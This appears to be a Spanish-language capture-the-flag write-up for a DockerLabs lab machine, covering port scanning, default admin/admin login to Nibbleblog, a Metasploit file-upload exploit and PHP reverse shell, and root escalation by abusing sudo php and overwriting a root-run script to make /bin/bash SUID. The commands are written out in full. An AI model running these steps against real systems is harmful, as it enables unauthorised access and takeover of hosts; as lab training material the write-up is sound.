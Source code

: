 # Fase 1- Tanteo

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/3b1baeed-469f-4cf9-93b2-1f82501df7b5)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **80/tcp(HTTP):** Apache 2.4.41 (Ubuntu)
### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevó a acceder a una pagina por defecto de Apache Ubuntu.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6dd93135-63f2-4af5-917f-73296165927a)

# Fase 2- Exploración

#### Feroxbuster
Realizando Fuzzing no se encontró absolutamente nada.

#### Codigo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ca79133c-8725-4e93-a508-ab5dd5689033)

Al hacer **CTRL+U** para revisar el codigo nos encontramos con algo interesante... Un directorio llamado **/nibbleblog**.

#### Nibbleblog
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e4528d79-4128-467b-aa4a-88f6e456467f)

Al entrar a Nibbleblog nos encontramos con una especie de blog.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b4655386-ba77-4a9c-9928-da37efa929f7)

Mirando mas de cerca encontramos este enlace `http://172.17.0.2/nibbleblog/admin.php`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/063ba0cb-c979-41b8-afbd-10164aba614b)

Al entrar es un inicio de sesión. Probamos las credenciales `admin` `admin` y estamos dentro como usuario administrador.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/9a7b9ae1-7d3f-4bed-a1d4-61d36f78549b)

Explorando encontramos la versión utilizada de Nibbleblog.

# Fase 3- Explotación

#### Searchsploit
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/1f1bbf96-b5e1-4903-aa13-5936f8a17346)

Usando la herramienta `searchsploit` encontramos que es vulnerable a `File Upload`.

#### MsfConsole

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/82b5508d-0391-420a-b992-d06f901d35e0)

Estamos dentro! Al principio nos daba un error pero era porque el script aprovecha un plugin que no tenia instalado. Era instalarlo y listo. 
Lista De Comandos:
```ruby
msfconsole
use exploit/multi/http/nibbleblog_file_upload
set PASSWORD admin
set USERNAME admin
set RHOSTS 172.17.0.2
set TARGETURI /nibbleblog/
exploit
```

#### Shell
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e4fc6088-3661-48e6-97a8-2f6eb560c944)

Subimos una revershell hecha en php desde msfconsole meterpreter para tener la shell a la que estoy acostumbrado y la ejecuto desde el directorio donde la subí desde el navegador.

# Fase 4- Privilegios
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4ba9a480-a951-4933-aa2c-542bd8bfcb24)

Despues de hacer el tratamiento de la TTY. Ejecutamos el comando `sudo -l` y vemos que tenemos permisos de ejecución del binario `php`.

#### PHP
Abusamos de este:

```shell
CMD="/bin/bash"
sudo -u chocolate /usr/bin/php -r "system('$CMD');"
```

Si listamos los procesos que están corriendo en el sistema. Podemos ver que **root** está ejecutando un script sospechoso:

```shell
ps -faux
----------------------------
root   1  0.0  0.0   2616  1712 ?   Ss   13:15   0:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done
```

Si listamos sus permisos vemos que pertenece al usuario **chocolate**:

```shell
ls -l /opt/script.php
------------------------------
-rw-r--r-- 1 chocolate chocolate 59 May  7 13:55 /opt/script.php
```

Podremos cambiarlo a nuestro antojo para ejecutar algo como el usuario **root**:

```shell
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

Y tras esperar un poco:

```shell
ls -l /bin/bash
----------------------------
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Vemos que la bash ya es **SUID** por lo que podemos escalar privilegios.

```shell
bash -p
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema!

